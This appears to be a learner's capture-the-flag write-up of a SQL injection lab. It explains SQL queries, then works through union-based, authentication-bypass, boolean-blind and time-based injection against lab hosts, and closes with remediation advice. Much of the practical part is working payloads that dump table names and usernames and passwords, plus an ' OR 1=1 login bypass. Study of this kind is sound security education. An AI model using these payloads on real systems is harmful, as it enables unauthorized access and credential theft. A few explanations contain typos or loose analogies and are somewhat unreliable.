



#  Notes
**Databases**

Database's are controlled by a DBMS **(Database Management System)** which are further seperated into Relational or Non-Relational databases.  This room will focus on Relational Databases.  Common examples are MYSQL, Microsoft SQL Server, Access, PostgreSQL and SQLite.

DBMS's can contain multiple databases each containing different sets of data.

In the image above:

Lets assume a user navigates to a webpage to purchase some goods with their account.  There account is stored in a database called **accounts** inside of a table called **customers**. The goods they may be purchasing are stored in the database **shop** under the table **products**

Tables store information located in Columns and Rows.  Each Column is identified by what is known as a `key` field - these are unique to locate each row of data.  Rows include the data, so for e.g when a new record is created a new row/record is created.

My interpreation of SQL is to think of it basically as a live database equivalent of Microsoft Excel.  And instead of a public facing gui as you would expect such as Excel, with SQL injection you dont have access to the database hence you you use queries/statements to retrieve the information you desire exploiting SQL injection vulnerabilities.

**Relational Vs Non-Relational Database:**
Relational databases store information in tables that often have shared information amongst the tables.  These tables often have a unique ID which can be used to reference information among different tables.

Non-relational tables however, are database's that do not use tables, columns and rows to store data. 

# **SQL**
SQL is used to query databases.  SQL injection is when a database is vulnerable to these queries making it possible for outsiders to retrieve information they should not be able to.

**SELECT QUERY**

In the image above you can see an example of 1 of the most common queries - `SELECT` which is used to retrieve data from a database.

`select * from users;`

`select` - Tells the database we want to retrieve data

`*` - Tells the database to look in all columns

`from users` - Tells the database to retrieve the data from the table named users (The table in the image above is the users table).

Another common example of how SQL works is when a user logs into their account on a webpage.  The query in this case would be:

`select username, password from users;`

Similar to above, the select query tells the database to look in columns username & password whilst the from parameter tells the database to look in the users table

Useful Select Queries to play with:

`select * from users where username='admin';` - username=admin retrieves rows only where username = admin

`select * from users LIMIT 1;` - limit 1 forces the database only to return 1 row of data.

`select * from users where username like 'a%';` - retrieves rows with usernames beginning with the letter a.  Changing `'a%'` to `'%a'` retrieves username ending in the letter a.

`select * from users where username like '%mi%';` - retrieves usernames that contain the letters `mi` within them.

**UNION QUERY**

The UNION statement combines the results of 2 or more SELECT statements to retrieve data from either single or multiple tables.  The statement must retrieve the same number of columns in each select statement and the columns have to be of a similar data type and have the same column order.

In the image above you can see that there are 2 similar databases with addressing information with 1 table containing customer information and the 2nd including supplier information.

The following query:

`SELECT name, address, city, postcode from customers UNION SELECT company, address, city, postcode from supplies;` will retrieve the `name, address, city & postcode` fields from both tables (Customers, supplies) and place it into 1 result set.

**INSERT QUERY**

The INSERT statement tells the database to insert a new row of data into the table.  For Example:

In the image above I can see the users table.  I can enter the following query to enter a new username/password.

`insert into users (username,password) values ('josh','password123');`

`into users` tells the database which table to enter the data into

`(username,password)` provides the columns we are entering data into whilst `values ('josh','password123');` provides the data to be entered.

**UPDATE QUERY**

The UPDATE statement tells the database to update 1 or more rows of data within a table.

In the image above I can update the contents of row 2 by entering the query:

`update users SET username='root',password='pass123' where username='admin';`

`update users SET` tells the database to update information in the users table.

`username='root',password='pass123'` specifies the desired data whilst `where username='admin';` specifies which row to update the information to.

**DELETE QUERY**

The DELETE statement tells the database to delete 1 or rows of data.

In the image above I can delete either specific data or all data.  This can be limited by using the LIMIT clause.

For example:

`delete from users where username='martin';` would delete any rows of data that contain the username martin.

`delete from users;` would delete everything in the table as there is no WHERE clause being used

# **SQL INJECTION**

Using SQL in a web app to retrieve user-provided data in an SQL query.

Example:

`https://website.thm/blog?id=1`

In an example URL above I can identify that the blog is selected using the `id=1` paramater. The web application needs to retrieve the article from a database and may use an SQL statement similar to this:

`SELECT * from blog where id=1 and private=0 LIMIT1;` - The website will retrieve the data in the table BLOG with the id=1.  The private=0 field means the public can view this.  We can attempt to SQL inject this by altering the query.  Lets assume that id=2 is not available for public view.

Entering the url such as `https://website.thm/blog?id=2;--` would result in the SQL query:
`SELECT * from blog where id=2;-- and private=0 LIMIT1;`

In this query the `;` signifies the end of the SQL statement whilst the `--` causes everything after this to be treated as a comment which would effectively make the statement `SELECT * from blog where id=2;--`

This would return the blog with an id of 2 regardless of it is set to public or not.

This is an example of In-Band SQL Injection.  The others types are Out of Band and Blind SQL Injection.

# In-Band SQLi

**In-Band** - Easiest type to detect and exploit.  Refers to the same method of communication being used to exploit the vulnerability and also receive the results.  For example detecting an SQL injection vulnerability of a website page and then being able to extract data from the database onto the same page.

**Error-Based SQL Injection** - Most useful for easily obtaining information about the database structure as error messages are printed from the database directly into the browser screen.  Can often be used to enumerate.

**Union-Based SQL Injection** - Utilises the SQL UNION oeprater alongside a SELECT statement to return additional results to the page.  Most common way of extracting large amounts of data via SQL injection.

# Practical Aspect
10.10.101.141/https://website.thm/article?id=1

Entering `''` into the url produces an SQL error which in itself tells me that this website is vulnerable to SQL injection.

By entering `1 UNION SELECT 1` into the URL I get the following error which tells me that the 2 tables we are attempting to retrieve data from has 2 different amounts of collumns.  I can try this add but add another column

 
Adding the query `1 UNION SELECT 1, 2` results in the same error so I will attempt to add another column by entering `1 UNION SELECT 1,2,3` which results in the same article

The error now disappears but I am seeing the same article.  This is because the `1` entered at the retrieves the 1st returned result in the websites code.

If I enter `0` at the front the following is returned as the query will produce no results:

The results above are displayed from the UNION query returning the column values instead of selecting this article.  Using these column ID values we can attempt to retrieve more information.

Changing the query to match `0 UNION SELECT 1,2, database()` results in giving us the database name `sqli_one` instead of the column id `3`.  

`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`

Adding the query above will gather tables that are in this database.

`group_contact()` gets the specified column - in this case it is table_name

`information_schema` is a database that every use has read only access too.  It contains information about all databases and tables that this user has access too.  In this case it is used to list all the tables in the sqli_one database.

By entering the command above the results now show that there is a table called `staff_users` which will likely include passwords.

Entering the query below essentially acts the same as the above command however we are now telling the SQL statement to retrieve information from a column hence `column_name` and inside of the `staff_users` table.

`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

Bingo.  The query above has resulted in us identifying the column names inside of the table staff_users.  We can now retrieve the user/password of an account by entering a command such as the 1 below:

`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR ' ') FROM staff_users`

Again, similar to the query above however this command will concat columns username & password into a string from staff_users.  ':' is used to seperate the username and password values when it is returned and the   entry is a HTML tag that forces each result to be returned on a new line.

The above command has successfully retrieve all usersname & passwords from the database.  Entering Martins PW reveals the flag

# Blind SQLi - Authentication Bypass

Blind SQLI is when we get little to no feedback to confirm whether our injected queries were successful or not and this is usually because error messaged have been disabled.  Feedback makes enumerating a database alot easier.

**Authentication Bypass**

1 of the most straight forward Blind SQL Injection techniques is to bypass authentication methods such as login forms - in this situation we are not interested in retrieving data but instead getting past the login.

Login forms are connected to a database of users are often developed in a way that the web app isn't interested in the content of the username and password but more whether the 2 make a matching pair in the users table.  Basically the web app asks the database do you have a user with the username <username> and the password <password> and the database replies with either yes/no (True/False) and depending on the annswer dictates whether the login attempt is successful or not.

So.. basically instead of succesfully enumerating a valid username/password pair.. all we need to do is create a database query that replies with yes/true.

An example of this query is below:

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

We can turn this query into a statement that always returns true:

`' OR 1=1;--`

Which effectivelly translates into:

`select * from users where username='' and password='' OR 1=1;`

The logic here is that 1=1 is always true and we have used an OR operator meaning both queries return as true and we have satisfied the web apps logic with locating a valid username/password.

Entering these queries into the login form progress the to level 3 and reveals another flag.

# Blind SQLi - Boolean Based

**Boolean Based**

Boolean Based SQLI basically refers to the response received from an injection attempt.  Basically a yes/no, true/false on/off, 1/0 or any response where there can only be **two outcomes**

In the example above the url query = `username=admin` and the value returned is `{"taken":true}` which complys with the 1 or 2 outcomes result that Boolean Based SQLi complys with.  By changing `admin` to `admin123` the flag now returns as false which will we expand upon to ensure we are getting correct results.  If I continued expanding upon on `admin` this would result in false positives as the username admin actually exists hence some statements would come back as true making it more difficult to identify what you are attempt to retrieve via the SQL statement.

Basically this value can help us identify if a username has been taken on a database.  This feature is commonly used on many sign up forms too so this ise useful knowledge.  The way to interpret this is:

The url query is `https://website.thm/checkuser?username=admin` and the return output is `{"taken":true}` which essentially means that the username `admin` is taken in this database.

The query is processed as `select * from users where username = '%username%' LIMIT 1;`

As per previous tasks, the 1st step is to establish the # of columns in the users table which can be done via the following statement:

`admin123' UNION SELECT 1;--`

This query returns with a false statement meaning that that there is more than 1 column.  Basically the task is to continue until we identify the correct columns.

Adding `,2` to the query also products a false return so I will try entering:

`'admin123' UNION SELECT 1,2,3;--`

This returns a `true` flag.  Now I know that there is 3 columns, I need to emunerate the database by combing the `database()` command with the UNION statement.  Entering the following:

`admin123' UNION SELECT 1,2,3 where database() like '%';--`

This also returns a true statement as the `'%'` flag is a wildcard for all databses basically.  If I enter a letter before this and it returns true it means the database name starts with that letter.  For example lets enter:

`admin123' UNION SELECT 1,2,3 where database() like 's%';--`

This results in a true flag meaning the database begins with an s.  From here you can move onto the next letter of the database such as `'sa%'` until you find the next character.  You continue with this process until you identify the name.  Doing this results in the name `sqli_three`.

With the database name, enumerating is possible by utlising the `information_scheme database` method.  The command below looks for results in the `tables` table where the database name matches `sqli_three`, and the table name begins with the letter a 

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`

Repeating this process similarly to above allows me to identify the table `users` resulting in the query:

`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'users';--`

I can expand on this further to identify the colum names of that `users` table by entering the query:

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`

Cycling through the letters reveals the column `id` however as we need to locate multiple column names we need to add the columns into our query to ensure we aren't resolving them.  For example, I will not add `and COLUMN_NAME != 'id';` to the end of the SQL statement to look for alternate column names.  The query below is entered to locate the 2nd column and so on.

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`

Doing this reveals the column `password`

Now the query will look like:

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id' and COLUMN_NAME !='password';`

Cycling through the letters again reveals another column as `username`

Now that I know the columns id, username and password exist.  I can query the username column to locate a username using similar techniques.

`admin123' UNION SELECT 1,2,3 from users where username like 'a%`

Entering the command above and cycling through the letters reveals the username `admin`

Now I expand on this to locate the password using the same techniques.

`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`

Cycling through letters and numerals here reveals the password as `3845`

Now I can log in to the webpage using the credentials located which are `admin/3845` which reveals another flag

# Blind SQLI - Time based

**Time-Based**

Very similar to Boolean based in that there is no visual indicator on queries being correct or wrong.

Your indicator of a correct query is based on the time the query takes to complete.  This is used with the `sleep(x)` method alongside `UNION`.

`admin123' UNION SELECT SLEEP(5);--` would attempt to retrieve columns in a table.  If there was no response time, then the query was unsuccesful.

As there was no response the query was unsuccesful and therefore as usual, I add a column to attempt to enumerate with the following statement.

`admin123' UNION SELECT SLEEP(5),2;--`

The above statement results in a succesful query with a 5 second response time.

Now that I have identified 2 columns I can repeat the enumeration process as it was done above with Boolean-Based SQL.

I enter the query:

`referrer=admin123' UNION SELECT SLEEP(5), 2 where database() like 'u%';--`

Cycling through the letters reveals a database called `sqli_four` with the following:

`referrer=admin123' UNION SELECT SLEEP(5), 2 where database() like 'sqli_four%`

Going down the rabit hole of locating a table name with the above techniques results in locating a users table using the following command:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_four' and table_name like 'users%';--`

I expand on this query using the same techniques as above to identify the column names:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_four' and table_name='users' AND COLUMN_NAME LIKE 'password%';-`

Using the above command and cycling through the letters I am able to locate an Id, username and password column similarly to above.

Now I query the username column to locate a username.  Cycling through the letters with the following command reveals the username `admin`

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username like 'a%'`

Now I can query the password with the same technique using the following command:

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM users where username='admin' AND password like '4961%'`

As usual, cycling through the letters reveals the password which is `4961`

Entering `admin/4961` into the login prompt reveals flag 5

# Out-Of-Band SQLi

This method of SQL Injection isnt as common as it relies on specific features being enabled on a database server or web applications logic.

Basically it relies on an external network call based on an SQL query **(I like to think of this as an SQL equivalent of a Man-In-The-Middle attack)**

This type of SQL attack is classified by having 2 coms channels - 1 to launch the attack and the other to gather the results.

This could be an attack channel via a web request and gathering the data via HTTP/DNS requests that you control.

# Remediation

SQL can be protected against witht he following methods:

**Prepared Statements (With Parameterized Queries)**:

In prepared queries - user inputs are basically added after the SQL query.  These are written in a way so that the SQL code structure remains the same and the database can distinguish between the query and the data.  It also makes your code look cleaner and easier to read

**Input Validation**

Arguably the most important method in most coding is to validate user input.  Allow lists can restrict input to certain strings or string replace methods in programming languages can be used to filter characters you want to allow/disallow

**Escaping User Input**

Allowing user input containing characters such as `',",%\` can cause queries to break or be vulnerable to injection attacks.  Escaping user input is the method of prepending a backslash `\` to these characters which then cause them to be interpreted as strings; and not a special character.
